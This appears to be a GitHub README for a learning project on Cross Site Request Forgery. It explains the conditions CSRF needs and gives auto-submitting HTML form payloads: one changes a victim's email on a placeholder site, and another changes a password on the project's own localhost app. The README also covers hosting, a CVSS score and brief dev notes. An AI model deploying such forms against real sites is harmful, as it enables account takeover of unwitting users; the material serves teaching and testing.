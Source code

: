 # CSRF
Cross Site Request Forgery.

(Notes are heavily inspired from that on PortSwigger, Bug bounty reports, HackerOne and Internet)

## How does it work?
There are three conditions which should be in place for CSRF to work:
1. Relevant action
2. Cookie based session handling (nothing other than cookies validating the user requests)
	- assuming the SameSite Cookies defense are **NOT** in place (SameSite is a browser mechanism that determines when a website's cookies are
	included in a request). Chrome by default enforces so.
3. No unpredictable params

```html
<html>
    <body>
		<!-- sending the request to vulnerable website -->
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Simple CSRF issue in this website

We are going to do a CSRF attack to change the password of the user.

### Exploit

```javascript
<body>
	<!-- sending the request to vulnerable website to change the password -->
	<h1>Hacked!</h1>
	<form action="http://localhost:3000/changepass" method="POST">
		<input type="hidden" password="password" value="hacked" />
	</form>
	<script>
		document.forms[0].submit();
	</script>
</body>
```

Hosting the web page using a simple Python server: `python3 -m http.server 1337` the response would be:

```http
HTTP/1.1 302 Found
X-Powered-By: Express
```

Check the CSRF PR for more. #1
`CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H` (8.0) in this case, which is debateable.

## Dev Notes
### Mar 18th
- Sign-up functionality was completed read why 409 was used here: [#42](https://github.com/realArcherL/csrf/blob/main/src/routes/user.js#L44)

### Marc 22nd
